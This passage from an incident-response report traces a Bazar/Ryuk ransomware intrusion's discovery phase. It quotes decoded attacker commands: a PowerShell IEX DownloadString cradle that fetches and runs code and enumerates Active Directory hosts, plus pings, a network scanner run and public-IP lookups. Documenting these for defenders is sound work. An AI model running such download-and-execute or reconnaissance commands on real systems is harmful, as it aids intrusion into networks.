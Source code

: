 
[![](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-16.png)](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-16.png)


Decoded:



```
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:13773/'); Import-Module ActiveDirectory; Get-ADComputer -Filter {enabled -eq $true} -properties *|select DNSHostName, IPv4Address, OperatingSystem, LastLogonDate
```

Systems were pinged from the domain controller to confirm connectivity.



```
C:\Windows\system32\cmd.exe /C ping HOSTX
```

Four days into the intrusion the threat actors dropped and executed Advanced\_IP\_Scanner\_2.5.3850.exe which kicked off a scan of the network.


AWS was used to get the public IP of the infected machine, multiple times.


![](https://thedfirreport.com/wp-content/uploads/2021/03/5-1.png)



```
checkip.amazonaws.com
```

Minutes before deployment of Ryuk the threat actors usually drop the following files, usually on a domain controller. This time they dropped the files on a domain controller in C:\info


### 


The exact files were mentioned in our [Bazar, No Ryuk](https://thedfirreport.com/2021/01/31/bazar-no-ryuk/) report.


start.bat was executed with the following:


![](https://thedfirreport.com/wp-content/uploads/2021/03/4-1.png)




```
C:\Windows\system32\cmd.exe /c ""C:\info\start.bat""
```

This script contents show it to be a wrapper for the PowerShell script Get-DataInfo.ps1


[![](https://thedfirreport.com/wp-content/uploads/2021/01/bazar-1013-discovery-1.png)](https://thedfirreport.com/wp-content/uploads/2021/01/bazar-1013-discovery-1.png)
